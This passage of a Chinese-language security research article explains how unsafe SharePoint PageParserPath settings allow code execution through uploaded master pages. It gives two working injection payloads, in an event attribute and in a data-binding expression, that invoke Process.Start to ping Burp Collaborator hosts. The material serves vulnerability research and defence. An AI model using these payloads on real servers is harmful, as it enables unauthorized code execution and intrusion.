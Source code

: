这可能不是最安全的一种简单解决方案，有可能破坏所有安全机制。虽然在特定路径下允许编译是非常危险的一种操作，但有时候是SharePoint系统管理员唯一可选的一种方案，可以帮助偷懒的管理员早点收工。这种方式将允许通过文件上传实现代码执行，也是经典的一种代码执行方式。

如下示例是非常不安全的一种配置，允许Master文件执行代码：

```
&lt;SafeMode MaxControls="200" CallStack="false" DirectFileDependencies="10" TotalFileDependencies="250" AllowPageLevelTrace="false"&gt;
    &lt;PageParserPaths&gt;
        &lt;PageParserPath VirtualPath="/_catalogs/masterpage/*" CompilationMode="Always" AllowServerSideScript="true" IncludeSubFolders="true"/&gt;
    &lt;/PageParserPaths&gt;
&lt;/SafeMode&gt;
```

恶意站点管理员可以上传恶意master文件，然后在ASPX文件中引用该文件，从而实现在服务端执行代码，或者也可以在`/_catalogs/masterpage/`目录中直接上传一个ASPX文件，达到相同目标。

### <a class="reference-link" name="%E7%A6%81%E7%94%A8%E6%9C%8D%E5%8A%A1%E7%AB%AF%E8%84%9A%E6%9C%AC%E7%9A%84%E7%BC%96%E8%AF%91%E6%A8%A1%E5%BC%8F"></a>禁用服务端脚本的编译模式

此时我们无法启用未编译的服务端脚本，但有可能通过其他方式完成任务。尽管这种设置并不能帮助开发者简化开发过程，但看上去是可以挑战的一项任务。这种方式提供了一定的可扩展性及安全性，我们也在其他场景中看过这类配置条件。

典型的配置信息如下所示：

```
&lt;SafeMode MaxControls="200" CallStack="false" DirectFileDependencies="10" TotalFileDependencies="250" AllowPageLevelTrace="false"&gt;
    &lt;PageParserPaths&gt;
        &lt;PageParserPath VirtualPath="/_catalogs/masterpage/*" CompilationMode="Always" AllowServerSideScript="false" IncludeSubFolders="false"/&gt;
    &lt;/PageParserPaths&gt;
&lt;/SafeMode&gt;
```

这种设置可以轻松阻止内联脚本、事件属性、可用的表达式甚至某些指令（如`[@assembly](https://github.com/assembly)`）。

我们找到了一种方法，可以通过事件属性执行命令，这也可能是服务端会阻止事件属性、将其当成内联脚本的原因所在：

```
&lt;asp:Button id="Button1"    Text="Apply Image Alignment" OnClick='x);return @__ctrl;`}`Object/**/test2=System.Diagnostics.Process.Start("cmd.exe","/c ping dsdssd.jzmubrc7b4iom5zs53xnt0jroiu8ix.burpcollaborator.net");private void x(Object sender,EventArgs e)`{``}`private int f(int @__ctrl)`{`//' runat="server"/&gt;
```

如果服务端允许事件处理程序，那么就可以将以上代码注入已编译的代码中。

当数据绑定编译服务端允许的代码及脚本时，我们也找到了一种有趣的代码注入方法：

```
&lt;asp:Label ID="lblHello" runat="server" Text='&lt;%# Eval("a"));`}`object/**/test2=System.Diagnostics.Process.Start("ping","aaaax.ynp9z60mzj63akn7til2hf76cxir6g.burpcollaborator.net");private/**/void/**/test()`{`//+"x")%&gt;'&gt;&lt;/asp:Label&gt;
&lt;asp:Literal runat="server" Text='' /&gt;
```
